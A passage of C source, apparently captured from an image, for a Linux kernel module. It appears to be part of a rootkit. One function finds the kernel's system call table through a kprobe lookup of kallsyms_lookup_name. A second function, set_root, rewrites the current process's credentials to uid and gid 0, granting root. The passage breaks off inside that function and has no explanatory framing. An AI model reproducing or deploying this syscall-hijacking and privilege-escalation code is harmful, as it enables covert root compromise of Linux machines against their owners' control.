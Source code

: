 ```c

                  /* For storing address of sys_call_table */

                  unsigned long *get_syscall_table(void)
                  {
                    unsigned long *syscall_table;

                    //Defining custom kallsyms_lookup_name data type named: kallsyms_lookup_name_t, so that kallsyms_lookup_name be exported to kernel (>5.7)
                    
                    /* // Lookup the address for a symbol. Returns 0 if not found.
                    * unsigned long kallsyms_lookup_name(const char *name);
                    * 
                    */
                    typedef unsigned long (*kallsyms_lookup_name_t)(const char *name);
                    
                    kallsyms_lookup_name_t kallsyms_lookup_name;
                    register_kprobe(&kp);
                    kallsyms_lookup_name = (kallsyms_lookup_name_t) kp.addr;
                    unregister_kprobe(&kp);

                    syscall_table = (unsigned long*)kallsyms_lookup_name("sys_call_table");
                    return syscall_table;
                  }

                  // ============================= Alloting root privileges ==================

                  static void set_root(void)
                  {
                    /*
                    * pwd: /lib/modules/5.11.0-49-generic/build/include/linux/cred.h
                    * 
                    * struct cred {
                    * 	...
                    *	kuid_t		uid;		// real UID of the task
                    *	kgid_t		gid;		// real GID of the task 
                    * 	kuid_t		suid;		// saved UID of the task
                    *	kgid_t		sgid;		// saved GID of the task
                    *	kuid_t		euid;		// effective UID of the task
                    *	kgid_t		egid;		// effective GID of the task
                    *	kuid_t		fsuid;		// UID for VFS ops
                    *	kgid_t		fsgid;		// GID for VFS ops
                    *	...
                    * };
                    * 
                    * ...
                    * extern struct cred *prepare_creds(void);	// returns current credentials of the process
                    * ...
                    * extern int commit_creds(struct cred *);	// For setting modified values of ids to cred structure
                    */

                    struct cred *root = prepare_creds();

                    if (root == NULL)
                    {
                      return;
                    }

                    // Updating ids to 0 i.e. root
                    root->uid.val = root->gid.val = 0;
                    root->euid.val = root->egid.val = 0;
```